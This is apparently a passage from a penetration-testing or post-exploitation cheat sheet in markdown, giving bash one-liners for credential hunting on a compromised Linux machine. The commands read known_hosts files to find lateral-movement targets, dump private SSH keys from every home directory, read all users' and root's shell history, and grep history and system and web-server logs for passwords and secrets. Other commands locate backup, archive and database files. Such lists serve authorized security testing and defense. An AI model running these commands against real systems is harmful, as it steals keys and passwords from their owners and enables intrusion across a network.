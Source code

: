 ### SSH Key Analysis
```bash
# Check known_hosts for lateral movement targets
cat ~/.ssh/known_hosts
cat /home/*/.ssh/known_hosts 2>/dev/null

# Read private keys (if accessible)
find /home -name "id_*" -not -name "*.pub" -exec cat {} \; 2>/dev/null
```

## 📝 History & Log Files

### Command History Files
```bash
# Bash history files
cat ~/.bash_history
cat /home/*/.bash_history 2>/dev/null
cat /root/.bash_history 2>/dev/null

# Other history files
find / -type f \( -name "*_hist" -o -name "*_history" \) 2>/dev/null

# Search for passwords in history
history | grep -i "pass\|pwd\|key\|secret"
```

### Log File Investigation
```bash
# System logs
grep -r "password\|secret\|key" /var/log/ 2>/dev/null

# Application logs
find /var/log -type f -exec grep -l "password\|credential" {} \; 2>/dev/null

# Web server logs
grep -E "(password|login|auth)" /var/log/apache2/* 2>/dev/null
grep -E "(password|login|auth)" /var/log/nginx/* 2>/dev/null
```

## 🗃️ Backup & Archive Files

### Backup File Discovery
```bash
# Common backup extensions
find / -name "*.bak" -o -name "*.backup" -o -name "*.old" 2>/dev/null

# Compressed archives
find / -name "*.tar*" -o -name "*.zip" -o -name "*.gz" 2>/dev/null

# Database backups
find / -name "*.sql" -o -name "*.db" -o -name "*.sqlite*" 2>/dev/null
```
